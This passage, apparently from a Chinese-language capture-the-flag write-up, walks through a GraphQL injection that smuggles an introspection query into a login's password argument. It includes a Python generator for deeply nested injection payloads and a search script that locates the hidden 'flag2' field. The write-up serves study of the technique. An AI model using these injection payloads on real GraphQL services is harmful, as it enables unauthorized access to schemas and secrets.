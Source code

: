 ```
query ($username: String = "test", $password: String = "123") {
    login:__type (name: "Secret") {
        ok:__typename 
        username:fields {
            name 
            type {
                name
            }
        }
    }
    another:login(username: $username, password: $password) { ... }
}
```

经过测试，这样确实可以查询到Secret类的数据结构，并且可以递归，请GPT大人写了个任意深度查询的脚本：

```python
def gen_introspection_query(type_name: str, depth: int) -> str:
    """
    生成用于 introspection 的嵌套 GraphQL 查询。
    
    参数:
        type_name (str): 要查询的类型名，例如 "Secret_mnWv"
        depth (int): 嵌套层数 (建议 2~10)
    返回:
        str: 单行紧凑格式 GraphQL 查询字符串
    """

    def nested_block(level: int) -> str:
        if level == 0:
            return "name"
        inner = nested_block(level - 1)
        return f"name ofType {{name}} fields {{name type {{{inner}}}}}"

    body = nested_block(depth - 1)
    query = f'__type(name: "{type_name}") {{ok:name username:fields {{name type {{{body}}}}}}}'
    return '123"){login:' + query +  ' another:#'

payload = gen_introspection_query("Secret", depth=8)
print(len(payload))
print(payload)
```

深度为8时找到了flag2，payload似乎不太简洁，长度369勉强没超过限制。读取到结果后，递归算出路径：

```python
def dfs(node, path):
    path = (*path, node["name"])
    if node["name"] == "flag2":
        print(path)
        return
    try:
        childs = node["type"]["fields"]
        for ch in childs:
            dfs(ch, path)
    except:
        return
    
# result: ('secret', 'secret_Bm4e', 'secret_njpc', 'secret_dPgf', 'secret_8hbO', 'secret_gxvW', 'secret_ss4I', 'secret_f100', 'flag2')
```
